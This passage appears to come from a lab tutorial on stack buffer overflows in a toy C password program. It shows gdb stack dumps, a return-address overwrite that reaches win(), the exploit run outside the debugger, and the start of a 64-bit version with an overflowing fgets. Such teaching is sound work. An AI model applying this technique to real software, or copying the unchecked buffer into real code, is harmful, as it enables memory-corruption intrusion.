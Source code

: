 ```shell
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/12x $esp
0xffffd4d0:     0xf7fc14b0      0x414197cb      0x42424141      0x43434242
0xffffd4e0:     0x44444343      0x45454444      0x46464545      0x5655620b
0xffffd4f0:     0x48484747      0x49494848      0x4a4a4949      0xf7004a4a
(gdb)
```

Step through to continue past the breakpoint and we have gotten to the `win()` function 

```shell
(gdb) continue
Continuing.
Enter password: You win!

Program received signal SIGSEGV, Segmentation fault.
0x48484747 in ?? ()
(gdb)
```

###  Running the Exploit Outside the Debugger

```shell
$ ./pwd32 < attack-pwd32
Password address: 0xffffd516
Enter password: You win!
Segmentation fault
```

## 64-bit Exploit

```shell
$ gcc -g -o pwd64 pwd.c
pwd.c: In function ‘test_pw’:
pwd.c:8:9: warning: ‘fgets’ writing 50 bytes into a region of size 10 overflows the destination [-Wstringop-overflow=]
```

A warning is displayed about a buffer overflow when compiling, which is what we want

Now we test some inputs and we get Fail! for an appropriate length, but wrong password and segmentation fault for an input that overflows the buffer

```shell
$ ./pwd64
Password address: 0x7fffffffe3d6
Enter password: 1
Fail!
$ ./pwd64
Password address: 0x7fffffffe3d6
Enter password: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
Segmentation fault
```
